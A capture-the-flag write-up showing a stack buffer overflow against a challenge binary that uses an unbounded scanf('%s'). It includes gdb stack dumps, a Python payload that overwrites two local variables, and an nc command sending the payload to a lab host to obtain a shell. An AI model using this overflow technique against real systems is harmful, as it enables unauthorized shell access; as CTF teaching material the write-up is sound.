 Very similar to the last challenge, this also expects input.

## Initial Attempt

Debug the binary in gdb.

```asm
(gdb) disas main
Dump of assembler code for function main:
...
0x0000000000000948 <+74>:    lea    0x217(%rip),%rdi        # 0xb66
0x000000000000094f <+81>:    mov    $0x0,%eax
0x0000000000000954 <+86>:    call   0x750 <__isoc99_scanf@plt>
0x0000000000000959 <+91>:    cmpl   $0xc0ff33,-0x4(%rbp)
0x0000000000000960 <+98>:    jne    0x992 <main+148>
0x0000000000000962 <+100>:   cmpl   $0xc0d3,-0x8(%rbp)
0x0000000000000969 <+107>:   jne    0x992 <main+148>
...
```

We need to make sure we can overflow the buffer, this can be verified by investigating the format being used by scanf on line `<main+74>`, put a breakpoint just after this instruction (`<main+81>`)
```asm
(gdb) b *main+81
(gdb) r
(gdb) x/s $rdi
0x555555400b66: "%s"
```

We see it is unbounded scanf (%s) so we should be able to overflow in this case.

## Observation

Line `<main+91>` invokes `cmpl` call followed by line `<main+100>` which again does a comparison of `$rbp - 0x8` and `0xc0d3`, put a breakpoint here and run the program, input a large amount of `A` characters to find the boundary

```python title="buffer.py"
import sys
sys.stdout.write("A" * 32)
```

```shell
$ python buffer.py > payload
```

Set a breakpoint, run the program and feed the payload and look at `$rbp - 0x4` and stack

```asm
(gdb) b *main+91
Breakpoint 1 at 0x959
(gdb) r < payload
Breakpoint 1, 0x0000555555400959 in main ()
(gdb) x/32x $rsp
0x7fffffffda20: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda30: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda40: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffda50: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffda60: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffda70: 0x00000000      0x00000000      0xf7fe5f70      0x00007fff
0x7fffffffda80: 0x00000000      0x00000000      0xfee1dead      0x0badf00d
0x7fffffffda90: 0x00000001      0x00000000      0xf7dfd24a      0x00007fff
(gdb) x/x $rbp-0x4
0x7fffffffda8c: 0x0badf00d
(gdb) x/x $rbp-0x8
0x7fffffffda88: 0xfee1dead
(gdb)
```

Notice `$rbp - 0x4` appears in the stack as follows and so does 32 bytes of `0x41` which is `A`, we can also see `$rbp - 0x8`

```asm
0x7fffffffda20: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda30: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda40: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffda50: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffda60: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffda70: 0x00000000      0x00000000      0xf7fe5f70      0x00007fff
                                              + ------------ + ----------- +
0x7fffffffda80: 0x00000000      0x00000000    | 0xfee1dead   |  0x0badf00d |
                                              + ------------ + ----------- +
0x7fffffffda90: 0x00000001      0x00000000      0xf7dfd24a      0x00007fff
```

## Solution

We see the program halts because it checks the value of `$rbp - 0x4` against `0xc0ff33` and `$rbp - 0x8` against `0xc0d3`. So if we can write these variables with these values, we will get this challenge.
So input 104 bytes of `A` and then whatever comes next will be overflown to take the value of `$rbp - 0x4`

```python title="buffer.py"
import sys

padding = b"A" * 104
value1 = b"\xd3\xc0\x00\x00"
value2 = b"\x33\xff\xc0\x00"
sys.stdout.buffer.write(padding + value1 + value2)
```

Write this to payload file and run it again in gdb
```asm
(gdb) r < payload
Breakpoint 1, 0x0000555555400959 in main ()
(gdb) x/x $rbp-0x4
0x7fffffffda8c: 0x00c0ff33
(gdb) x/x $rbp-0x8
0x7fffffffda88: 0x0000c0d3
(gdb) x/32x $rsp
0x7fffffffda20: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda30: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda40: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda50: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda60: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda70: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda80: 0x41414141      0x41414141      0x0000c0d3      0x00c0ff33
0x7fffffffda90: 0x00000000      0x00000000      0xf7dfd24a      0x00007fff
```

Voila, continue and you will see the program starts a shell

```shell
(cat payload; cat) | nc 10.201.92.179 9002
```

You will get a shell, `cat flag.txt` and complete the challenge
